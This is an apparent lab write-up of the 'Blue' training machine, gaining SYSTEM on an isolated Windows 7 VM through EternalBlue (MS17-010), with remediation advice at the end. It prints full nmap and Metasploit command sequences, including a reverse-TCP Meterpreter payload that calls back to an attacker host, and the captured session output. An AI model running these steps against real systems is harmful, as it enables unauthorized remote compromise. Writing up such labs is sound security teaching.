



Blue
Switch
Result: SYSTEM access achieved
I obtained NT AUTHORITY\SYSTEM execution (Windows’ built-in LocalSystem identity) on the isolated Windows 7 SP1 x64 VM using EternalBlue. My saved terminal capture confirms the session and identity; scanner outputs in my notes are expected examples, not retained results.
Attack path: SMB discovery → MS17-010 checks → x64 EternalBlue → Meterpreter → NT AUTHORITY\SYSTEM.
Screenshots mask identifying details; addresses in command text are placeholders. Technical output is preserved.
Target environment
- Lab target: Blue,
<LAB_TARGET> - Operating system: Windows 7 SP1
- Architecture: x64
- Service / application: SMB on TCP/445
- Weakness investigated: MS17-010
- Scope: Intentionally vulnerable, isolated training VM
Attacking machine: Kali Linux, <LAB_KALI>. Payload: x64 Meterpreter.
Intentionally vulnerable, isolated training VM. Commands are lab-only; LAB_TARGET and LAB_KALI stand for the target and callback addresses on that isolated network. Credentials and unrelated local data are omitted.
1. Enumerate and check SMB
My notes describe discovery on TCP/445 and checks for MS17-010, Microsoft’s update covering SMBv1 vulnerabilities. SMB is Windows’ file-sharing protocol; an open port alone does not establish vulnerability. Set LAB_TARGET to the isolated VM address in the shell.
sudo nmap -p- -sC -sV -O -T4 "$LAB_TARGET" -oN blue_nmap.txt
nmap -Pn -p445 --script smb-vuln-ms17-010 "$LAB_TARGET"
# Metasploit scanner
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <LAB_TARGET>
runA positive scanner result supports the vulnerability hypothesis; it does not demonstrate command execution. My notes label the scanner output as expected rather than a saved result.


Why this path works: the unpatched SMBv1 service mishandles specially crafted messages, permitting remote code execution. This is a network-service vulnerability, not a guessed login. Microsoft’s MS17-010 bulletin documents the affected protocol.
2. Match the payload architecture
My retained configuration screenshot shows the EternalBlue module and x64 Meterpreter payload, which provides Metasploit’s interactive post-exploitation session. This sequence reflects that configuration with addresses replaced:
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <LAB_TARGET>
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <LAB_KALI>
set LPORT 4444
show options
check
exploitThe supplied walkthrough uses port 2222; the actual captured session uses 4444. Either is a configurable listener port, but 4444 is the historical value shown here. Target and payload architecture must agree.


3. Verify the session
My capture records a successful overwrite and an opened Meterpreter session. whoami at the Meterpreter prompt failed as an unknown command; getuid correctly identified the session:
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
OS: Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture: x64
Meterpreter: x64/windowsThese are selected captured lines, with the local machine name omitted. My notes also recommend native-shell verification. The commands below are follow-up methodology, not additional retained output:
# At the Meterpreter prompt
shell
# In the resulting Windows command shell
whoami
whoami /priv
hostname

4. Findings and remediation
Vulnerable SMB service
Apply applicable MS17-010 fixes and migrate unsupported Windows systems.
Legacy protocol exposure
Disable SMBv1 where unnecessary and restrict SMB reachability.
High-impact execution
The recorded session already had SYSTEM privileges; this path needed no separate local escalation.
Result and evidence limits
The saved terminal confirms the module, payload, opened session, and SYSTEM identity. Scanner output in the supplied notes remains illustrative. Original notes record a VM crash, so successful exploitation must not be equated with stability. No remediation retest is claimed.